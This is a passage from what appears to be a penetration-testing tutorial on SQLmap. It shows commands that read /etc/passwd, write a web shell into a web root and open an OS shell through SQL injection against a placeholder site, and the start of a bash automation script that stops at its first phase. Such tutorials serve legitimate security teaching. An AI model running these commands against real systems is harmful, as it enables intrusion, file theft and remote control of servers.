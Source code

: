 #### File System Access

SQLmap can interact with the server's file system if the database has appropriate privileges:

```bash
# Read a file
sqlmap -u "http://vulnerable-site.com/page.php?id=1" --file-read=/etc/passwd

# Write a file (e.g., a web shell)
sqlmap -u "http://vulnerable-site.com/page.php?id=1" --file-write=shell.php --file-dest=/var/www/html/shell.php
```

#### Command Execution

For databases with appropriate privileges, SQLmap can execute operating system commands:

```bash
sqlmap -u "http://vulnerable-site.com/page.php?id=1" --os-shell
```

### SQLmap Automation Script

This script automates a thorough SQL injection assessment process:

```bash
#!/bin/bash
# sqlmap_comprehensive.sh - Comprehensive SQL injection assessment

# Target configuration
TARGET_URL=$1
OUTPUT_DIR="sqlmap_results_$(date +%Y%m%d_%H%M%S)"
RISK_LEVEL=2
THREADS=5
USER_AGENT="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.110 Safari/537.36"

# Check if a target was provided
if [ -z "$TARGET_URL" ]; then
  echo "Usage: $0 <target_url>"
  echo "Example: $0 'http://vulnerable-site.com/page.php?id=1'"
  exit 1
fi

# Create output directory
mkdir -p "$OUTPUT_DIR"
echo "Results will be saved to $OUTPUT_DIR"

# Function to log and execute sqlmap commands
run_sqlmap() {
  local description=$1
  local command=$2
  local output_file="$OUTPUT_DIR/$(echo "$description" | sed 's/ /_/g').txt"
  
  echo "[$description]"
  echo "Command: $command"
  echo "Output file: $output_file"
  
  # Execute the command and capture output
  $command | tee "$output_file"
  
  echo "-------------------------------------------"
}

# Phase 1: Initial Detection
echo "[+] Starting initial SQL injection detection"
```